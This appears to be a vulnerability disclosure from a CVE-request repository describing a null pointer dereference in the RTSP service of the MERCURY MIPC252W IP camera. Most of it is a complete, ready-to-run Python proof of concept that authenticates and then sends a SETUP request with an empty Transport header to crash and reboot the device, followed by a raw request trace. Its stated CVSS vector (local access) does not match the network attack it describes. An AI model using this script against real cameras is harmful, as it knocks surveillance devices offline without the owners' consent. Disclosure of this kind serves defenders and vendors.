

# Information

**Vendor of the products:**  MERCURY

**Vendor's website:**  [https://www.mercurycom.com.cn/](https://www.mercurycom.com.cn/)

**Reported by:**  YanKang

**Affected products:** MIPC252W

**Affected firmware version:** 1.0.5 Build 230306 Rel.79931n

**Firmware download address:** https://service.mercurycom.com.cn/download-2777.html


# Overview

A null pointer dereference vulnerability exists in the RTSP service of the MERCURY MIPC252W IP camera. During the processing of a `SETUP` request for the path `rtsp://<IP>:554/stream1/track2`, the device fails to properly validate the `Transport` header field. When this header is improperly constructed (for example, when the header is present but the value is empty), the RTSP service may dereference a NULL pointer during request parsing.  Successful exploitation causes the device to crash and automatically reboot, resulting in RTSP stream interruption and the camera being disconnected in the mobile application, leading to a denial of service (DoS) condition.


# POC

After running the PoC, the script establishes an RTSP session with the target camera and sends a malformed SETUP request for the second media track with an improperly constructed Transport header (an empty value), which triggers an RTSP service failure and results in a denial-of-service condition.

```python
#!/usr/bin/env python3
"""
PoC for Null Pointer Dereference in MERCURY MIPC252W RTSP Service

This proof-of-concept reproduces a denial-of-service vulnerability
by following a complete RTSP request sequence and sending a malformed
SETUP request with an empty Transport header field for the second media track.

Tested device:
- Vendor: MERCURY
- Model: MIPC252W
- Firmware: 1.0.5 Build 230306 Rel.79931n

Impact:
- Device crashes and automatically reboots
- RTSP service interruption (Denial of Service)

This code is for authorized security research purposes only.
"""

import socket
import time
import hashlib

CAMERA_IP = "TARGET_IP"   # replace with target device IP
RTSP_PORT = 554
RTSP_URI = f"rtsp://{CAMERA_IP}:{RTSP_PORT}/stream1"

USERNAME = "admin"
REALM = "MERCURY IP-Camera"

# Precomputed HA1 value (device/user specific, used only for PoC)
HA1 = hashlib.md5(f"{USERNAME}:{REALM}:{YOUR_PASSWORD}".encode()).hexdigest() #Calculations must be performed based on the manufacturer's authentication scheme and your own username and password.

def calculate_response(nonce, method, uri):
    """Calculate RTSP Digest authentication response"""
    ha2 = hashlib.md5(f"{method}:{uri}".encode()).hexdigest()
    return hashlib.md5(f"{HA1}:{nonce}:{ha2}".encode()).hexdigest()

# Create RTSP connection
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((CAMERA_IP, RTSP_PORT))

# 1. OPTIONS
options_req = (
    f"OPTIONS {RTSP_URI} RTSP/1.0\r\n"
    f"CSeq: 2\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n\r\n"
)
sock.send(options_req.encode())
time.sleep(1)
options_res = sock.recv(4096).decode(errors="ignore")
print("OPTIONS Response:\n", options_res)

# 2. DESCRIBE (unauthenticated)
describe1_req = (
    f"DESCRIBE {RTSP_URI} RTSP/1.0\r\n"
    f"CSeq: 3\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Accept: application/sdp\r\n\r\n"
)
sock.send(describe1_req.encode())
time.sleep(1)
describe_res = sock.recv(4096).decode(errors="ignore")
print("DESCRIBE_1 Response:\n", describe_res)

# Extract nonce
nonce = None
for line in describe_res.split("\r\n"):
    if "nonce=" in line:
        nonce = line.split('nonce="')[1].split('"')[0]
        break

if not nonce:
    print("[!] Failed to get nonce from response")
    sock.close()
    exit(1)

response = calculate_response(nonce, "DESCRIBE", RTSP_URI)

# 3. DESCRIBE (authenticated)
describe2_req = (
    f"DESCRIBE {RTSP_URI} RTSP/1.0\r\n"
    f"CSeq: 4\r\n"
    f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
    f"nonce=\"{nonce}\", uri=\"{RTSP_URI}\", response=\"{response}\"\r\n"
    f"Accept: application/sdp\r\n\r\n"
)
sock.send(describe2_req.encode())
time.sleep(1)
describe_res = sock.recv(4096).decode(errors="ignore")
print("DESCRIBE_2 Response:\n", describe_res)

# 4. SETUP track1 (normal)
setup1_req = (
    f"SETUP {RTSP_URI}/track1 RTSP/1.0\r\n"
    f"CSeq: 5\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
    f"nonce=\"{nonce}\", uri=\"{RTSP_URI}\", response=\"\"\r\n"
    f"Transport: RTP/AVP/TCP;unicast;interleaved=0-1\r\n\r\n"
)
sock.send(setup1_req.encode())
time.sleep(1)
setup_res = sock.recv(4096).decode(errors="ignore")
print("SETUP_1 Response:\n", setup_res)

# Extract Session ID
session_id = None
for line in setup_res.split("\r\n"):
    if line.startswith("Session:"):
        session_id = line.split(":")[1].split(";")[0].strip()
        break

if not session_id:
    print("[!] Failed to get session ID")
    sock.close()
    exit(1)

# 5. SETUP track2 (malformed Transport header)
setup2_req = (
    f"SETUP {RTSP_URI}/track2 RTSP/1.0\r\n"
    f"CSeq: 6\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
    f"nonce=\"{nonce}\", uri=\"{RTSP_URI}\", response=\"\"\r\n"
    f"Transport:\r\n"
    f"Session: {session_id}\r\n\r\n"
)
sock.send(setup2_req.encode())
time.sleep(1)
setup_res = sock.recv(4096).decode(errors="ignore")
print("SETUP_2 Response:\n", setup_res)

# 6. PLAY
play_req = (
    f"PLAY {RTSP_URI}/ RTSP/1.0\r\n"
    f"CSeq: 7\r\n"
    f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
    f"nonce=\"{nonce}\", uri=\"{RTSP_URI}/\", response=\"\"\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Session: {session_id}\r\n"
    f"Range: npt=0.000-\r\n\r\n"
)
sock.send(play_req.encode())
time.sleep(1)

# 7. TEARDOWN
teardown_req = (
    f"TEARDOWN {RTSP_URI}/ RTSP/1.0\r\n"
    f"CSeq: 8\r\n"
    f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
    f"nonce=\"{nonce}\", uri=\"{RTSP_URI}/\", response=\"\"\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Session: {session_id}\r\n\r\n"
)
sock.send(teardown_req.encode())
time.sleep(1)

print("[*] PoC finished. Target device may reboot shortly.")
sock.close()

```

Below is an example of a complete RTSP request packet from our verification process.

```
OPTIONS rtsp://{IP}:554/stream1 RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)

DESCRIBE rtsp://{IP}:554/stream1 RTSP/1.0
CSeq: 3
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Accept: application/sdp

DESCRIBE rtsp://{IP}:554/stream1 RTSP/1.0
CSeq: 4
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="NONCE_VALUE", uri="rtsp://{IP}:554/stream1", response="RESPONSE_VALUE"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Accept: application/sdp

SETUP rtsp://{IP}:554/stream1/track1 RTSP/1.0
CSeq: 5
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="NONCE_VALUE", uri="rtsp://{IP}:554/stream1/", response="RESPONSE_VALUE"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport: RTP/AVP/TCP;unicast;interleaved=0-1

SETUP rtsp://{IP}:554/stream1/track2 RTSP/1.0
CSeq: 6
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="NONCE_VALUE", uri="rtsp://{IP}:554/stream1/", response="RESPONSE_VALUE"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport:                    #这里header field的值设置为空或者其他的和标准不一致的情况。
Session: 5579378E

PLAY rtsp://{IP}:554/stream1/ RTSP/1.0
CSeq: 7
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="NONCE_VALUE", uri="rtsp://{IP}:554/stream1/", response="RESPONSE_VALUE"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Session: 5579378E
Range: npt=0.000-

TEARDOWN rtsp://{IP}:554/stream1/ RTSP/1.0
CSeq: 8
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="NONCE_VALUE", uri="rtsp://{IP}:554/stream1/", response="RESPONSE_VALUE"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Session: 5579378E
```


# Attack Demo

The vulnerability can be triggered by sending a malformed RTSP request. After establishing a legitimate RTSP session with the device, an attacker sends a `SETUP` request for the second media track with an empty `Transport` header field. When processing this malformed parameter, the device dereferences a null pointer, causing the RTSP service to fail and eventually leading to an automatic device reboot, resulting in a denial-of-service condition.

As the target device firmware is closed-source and does not expose debugging symbols or interfaces, source-level crash analysis is not available. To demonstrate the reproducibility and real-world impact of the vulnerability, a complete demonstration video is provided to show how the malformed RTSP request leads to a denial-of-service condition.

A complete proof-of-concept script and a short demonstration video are provided in this repository to illustrate the reliable reproduction of the issue.

https://github.com/izxnfirh8148/CVE_REQUESTS_references/releases/tag/MERCURY-MIPC252W_1





# Supplement

This vulnerability allows an authenticated attacker to trigger a denial-of-service (DoS) condition on the affected device. By sending a malformed RTSP `SETUP` request with an empty `Transport` header field, a null pointer dereference is triggered during request processing, resulting in an RTSP service failure and an automatic device reboot.

Successful exploitation causes the camera to become unavailable, interrupts video streaming, and results in the device appearing offline in the management application. Repeated exploitation can lead to sustained service disruption, negatively impacting the availability and reliability of the device in real-world deployment scenarios.

The issue has been assigned a **CVSS v3.1** base score of **5.5(Medium)** with the vector **CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:H**

